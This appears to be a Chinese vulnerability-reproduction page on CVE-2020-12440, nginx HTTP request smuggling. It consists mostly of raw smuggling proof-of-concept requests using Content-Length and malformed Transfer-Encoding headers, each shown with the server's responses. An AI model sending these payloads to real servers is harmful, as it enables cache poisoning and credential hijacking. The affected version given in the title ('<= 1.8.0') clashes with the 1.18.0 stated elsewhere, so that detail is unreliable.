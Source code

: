 （CVE-2020-12440）Nginx \<= 1.8.0 请求走私
==========================================

一、漏洞简介
------------

Nginx
1.18.0及之前版本中存在安全漏洞。攻击者可利用该漏洞进行缓存投毒，劫持凭证或绕过安全保护。

二、漏洞影响
------------

Nginx \<= 1.8.0

三、复现过程
------------

![1589967192.jpg](./.resource/(CVE-2020-12440)Nginx<=1.8.0请求走私/media/rId24.jpg)

### Request

    GET /test.html HTTP/1.1
    Host: www.0-sec.org
    Content-Length: 2

    GET /poc.html HTTP/1.1
    Host: www.0-sec.org
    Content-Length: 15

### Response

    HTTP/1.1 200 OK
    Server: nginx/1.18.0
    Date: Fri, 01 May 2020 18:28:44 GMT
    Content-Type: text/html
    Content-Length: 33
    Last-Modified: Thu, 30 Apr 2020 14:36:32 GMT
    Connection: keep-alive
    ETag: "5eaae270-21"
    Accept-Ranges: bytes

    <html><h1>Test Page!</h1></html>
    HTTP/1.1 200 OK
    Server: nginx/1.18.0
    Date: Fri, 01 May 2020 18:28:44 GMT
    Content-Type: text/html
    Content-Length: 15
    Last-Modified: Thu, 30 Apr 2020 14:35:41 GMT
    Connection: keep-alive
    ETag: "5eaae23d-f"
    Accept-Ranges: bytes

    NGINX PoC File

其他例子
--------

### Request（200 OK + 405 Method Not Allowed）

    GET / HTTP/1.1
    Host: www.0-sec.org
    Content-Length: 4
    Transfer-Encoding : chunked


    46
    TRACE / HTTP/1.1
    Host:www.0-sec.org
    Content-Length:15


    kk
    0s

### Response（200 OK + 405 Method Not Allowed）

    HTTP/1.1 200 OK
    Server: nginx/1.18.0
    Date: Tue, 21 Apr 2020 16:28:12 GMT
    Content-Type: text/html
    Content-Length: 612
    Last-Modified: Tue, 21 Apr 2020 16:08:59 GMT
    Connection: keep-alive
    ETag: "5e9f1a9b-264"
    Accept-Ranges: bytes


    <!DOCTYPE html>
    <html>
    <head>
    <title>Welcome to nginx!</title>
    <style>
        body {
            width: 35em;
            margin: 0 auto;
            font-family: Tahoma, Verdana, Arial, sans-serif;
        }
    </style>
    </head>
    <body>
    <h1>Welcome to nginx!</h1>
    <p>If you see this page, the nginx web server is successfully installed and
    working. Further configuration is required.</p>

    <p>For online documentation and support please refer to
    <a href="http://nginx.org/">nginx.org</a>.<br />
    Commercial support is available at
    <a href="http://nginx.com/">nginx.com</a>.</p>

    <p><em>Thank you for using nginx.</em></p>
    </body>
    </html>
    HTTP/1.1 405 Not Allowed
    Server: nginx/1.18.0
    Date: Tue, 21 Apr 2020 16:28:12 GMT
    Content-Type: text/html
    Content-Length: 157
    Connection: close


    <html>
    <head><title>405 Not Allowed</title></head>
    <body>
    <center><h1>405 Not Allowed</h1></center>
    <hr><center>nginx/1.18.0</center>
    </body>
    </html>

### Request（200 OK + 404 Not Found）

    GET / HTTP/1.1
    Host: www.0-sec.org
    Content-Length: 4
    Transfer-Encoding : chunked

    46
    GET /404 HTTP/1.1
    Host:www.0-sec.org
    Content-Length:15

    kk
    0s

### Response（200 OK + 404 Not Found）

    HTTP/1.1 200 OK
    Server: nginx/1.18.0
    Date: Tue, 21 Apr 2020 16:23:52 GMT
    Content-Type: text/html
    Content-Length: 612
    Last-Modified: Tue, 21 Apr 2020 16:08:59 GMT
    Connection: keep-alive
    ETag: "5e9f1a9b-264"
    Accept-Ranges: bytes


    <!DOCTYPE html>
    <html>
    <head>
    <title>Welcome to nginx!</title>
    <style>
        body {
            width: 35em;
            margin: 0 auto;
            font-family: Tahoma, Verdana, Arial, sans-serif;
        }
    </style>
    </head>
    <body>
    <h1>Welcome to nginx!</h1>
    <p>If you see this page, the nginx web server is successfully installed and
    working. Further configuration is required.</p>

    <p>For online documentation and support please refer to
    <a href="http://nginx.org/">nginx.org</a>.<br />
    Commercial support is available at
    <a href="http://nginx.com/">nginx.com</a>.</p>

    <p><em>Thank you for using nginx.</em></p>
    </body>
    </html>
    HTTP/1.1 404 Not Found
    Server: nginx/1.18.0
    Date: Tue, 21 Apr 2020 16:23:52 GMT
    Content-Type: text/html
    Content-Length: 153
    Connection: keep-alive


    <html>
    <head><title>404 Not Found</title></head>
    <body>
    <center><h1>404 Not Found</h1></center>
    <hr><center>nginx/1.18.0</center>
    </body>
    </html>
